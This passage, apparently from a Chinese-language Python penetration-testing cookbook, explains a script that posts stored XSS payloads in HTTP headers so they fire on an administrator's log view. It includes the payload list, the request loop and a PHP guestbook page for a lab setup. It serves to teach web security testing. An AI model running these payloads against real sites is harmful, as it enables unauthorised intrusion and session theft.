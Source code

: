 脚本不会提供任何输出，因为它针对的是功能的管理员端。但是，您可以轻松地设置它在每个循环中提供输出：

```py
Print "Submitted "+payload
```

这将每次返回以下内容：

```py
Submitted <script>alert(1);</script>
```

## 工作原理…

我们导入我们脚本所需的库，并以`sys.argv`函数的形式输入。你应该对这一点相当熟悉了。

再次，我们可以将我们的有效载荷声明为列表，而不是字典，因为我们将它们与网页提供的值配对。我们还创建一个空字典来容纳我们未来的攻击配对：

```py
payloads = ['<script>alert(1);</script>', '<scrscriptipt>alert(1);</scrscriptipt>', '<BODY ONLOAD=alert(1)>']
headers ={}
```

然后，我们对网页进行`HEAD`请求，仅返回我们正在攻击的页面的标头。虽然`HEAD`请求可能被禁用，但这种可能性很小；但是，如果是这样，我们可以将其替换为标准的`GET`请求：

```py
r = requests.head(url)
```

我们循环遍历之前设置的有效载荷和从前面的`HEAD`请求中提取的标头：

```py
for payload in payloads:
  for header in r.headers:
```

对于每个有效载荷和标头，我们将它们添加到之前设置的空字典中，作为一对：

```py
headers[header] = payload
```

对于每个有效载荷的迭代，我们然后提交所有具有该有效载荷的标头，因为显然我们无法提交每个标头的多个：

```py
req = requests.post(url, headers=headers)
```

由于攻击的活动部分发生在管理员的客户端，因此需要使用管理员帐户手动检查，或者需要联系管理员以查看攻击是否在日志链的任何位置激活。

## 另请参阅

以下是可用于测试前面脚本的设置。这与用于 XSS 检查的早期脚本非常相似。这里的区别在于传统的 XSS 方法将由于`strip_tags`函数而失败。它演示了需要使用非常规方法执行攻击的情况。显然，在注释中返回用户代理是虚构的，尽管这在野外很常见。它们需要保存为提供的文件名以便与 MySQL 数据库一起工作，并存储评论。

以下是名为`guestbook.php`的第一个界面页面：

```py
<?php

$my_rand = rand();

if (!isset($_COOKIE['sessionid4'])){
  setcookie("sessionid4", $my_rand, "10000000000", "/xss/vhard/");
}
?>

<form id="contact_form" action='addguestbook.php' method="post">
  <label>Name: <input class="textfield" name="name" type="text" value="" /></label>
  <label>Comment: <input class="textfield" name="comment" type="text" value="" /></label>
  <input type="submit" name="Submit" value="Submit"/> 
</form>
```